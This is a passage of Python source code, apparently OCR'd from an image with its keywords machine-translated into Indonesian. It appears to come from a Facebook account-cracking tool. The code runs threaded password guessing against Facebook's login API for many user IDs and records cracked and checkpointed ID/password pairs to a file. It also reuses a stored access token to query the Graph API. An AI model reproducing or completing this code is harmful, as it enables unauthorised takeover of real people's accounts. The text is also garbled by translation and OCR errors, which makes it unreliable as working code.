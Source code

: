 												oks.append (pengguna + pass5)
											lain:
												jika 'www.facebook.com' di q ["error_msg"]:
													cetak '\ x1b [1; 96m [✖] \ x1b [1; 93mCEKPOINT'
													cetak '\ x1b [1; 96m [✺] \ x1b [1; 97mNama \ x1b [1; 91m: \ x1b [1; 93m' + b ['name']
													cetak '\ x1b [1; 96m [➹] \ x1b [1; 97mID \ x1b [1; 91m: \ x1b [1; 93m' + pengguna
													cetak '\ x1b [1; 96m [➹] \ x1b [1; 97mPassword \ x1b [1; 91m: \ x1b [1; 93m' + pass5 + '\ n'
													cek = buka ("out / super_cp.txt", "a")
													cek.write ("ID:" + user + "Pw:" + pass5 + "\ n")
													cek.close ()
													cekpoint.append (pengguna + pass5)
												lain:
													pass6 = 'Sayang'
													data = urllib.urlopen ("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&&== password & ur=== urellib) ) + "& sdk = ios & generate_session_cookies = 1 & sig = 3f555f99fb61fcd7aa0c44f58f522ef6")
													q = json.load (data)
													jika 'access_token' di q:
														cetak '\ x1b [1; 96m [✓] \ x1b [1; 92mBERHASIL'
														cetak '\ x1b [1; 96m [✺] \ x1b [1; 97mNama \ x1b [1; 91m: \ x1b [1; 92m' + b ['name']
														cetak '\ x1b [1; 96m [➹] \ x1b [1; 97mID \ x1b [1; 91m: \ x1b [1; 92m' + pengguna
														cetak '\ x1b [1; 96m [➹] \ x1b [1; 97mPassword \ x1b [1; 91m: \ x1b [1; 92m' + pass6 + '\ n'
														oks.append (pengguna + pass6)
													lain:
														jika 'www.facebook.com' di q ["error_msg"]:
															cetak '\ x1b [1; 96m [✖] \ x1b [1; 93mCEKPOINT'
															cetak '\ x1b [1; 96m [✺] \ x1b [1; 97mNama \ x1b [1; 91m: \ x1b [1; 93m' + b ['name']
															cetak '\ x1b [1; 96m [➹] \ x1b [1; 97mID \ x1b [1; 91m: \ x1b [1; 93m' + pengguna
															cetak '\ x1b [1; 96m [➹] \ x1b [1; 97mPassword \ x1b [1; 91m: \ x1b [1; 93m' + pass6 + '\ n'
															cek = buka ("out / super_cp.txt", "a")
															cek.write ("ID:" + user + "Pw:" + pass6 + "\ n")
															cek.close ()
															cekpoint.append (pengguna + pass6)
		kecuali:
			lulus
		
	p = ThreadPool (30)
	p.map (utama, id)
	cetak '\ 033 [1; 96m [\ 033 [1; 97m.2016 \ 033 [1; 96m] \ 033 [1; 92mSelesai \ 033 [1; 97m ....'
	cetak "\ 033 [1; 96m [+] \ 033 [1; 92mTotal OK / \ x1b [1; 93mCP \ 033 [1; 91m: \ 033 [1; 92m" + str (len (oks)) + "\ 033 [1; 97m / \ 033 [1; 93m "+ str (len (cekpoint))
	print ("\ 033 [1; 96m [+] \ 033 [1; 92mCP File disimpan \ 033 [1; 91m: \ 033 [1; 97mout / super_cp.txt")
	raw_input ("\ n \ 033 [1; 96m [\ 033 [1; 97mKembali \ 033 [1; 96m]")
	super()


def grupsaya ():
	os.system ('jelas')
	mencoba:
		toket = open ('login.txt', 'r'). read ()
	kecuali IOError:
		cetak "\ 033 [1; 96m [!] \ x1b [1; 91mToken tidak valid"
		os.system ('rm -rf login.txt')
		time.sleep (1)
		keluar ()
	mencoba:
		os.mkdir ('keluar')
	kecuali OSError:
		lulus
	os.system ('jelas')
	cetak logo
	cetak 42 * "\ 033 [1; 96m ="
	mencoba:
		uh = requests.get ('https://graph.facebook.com/me/groups?access_token='+toket)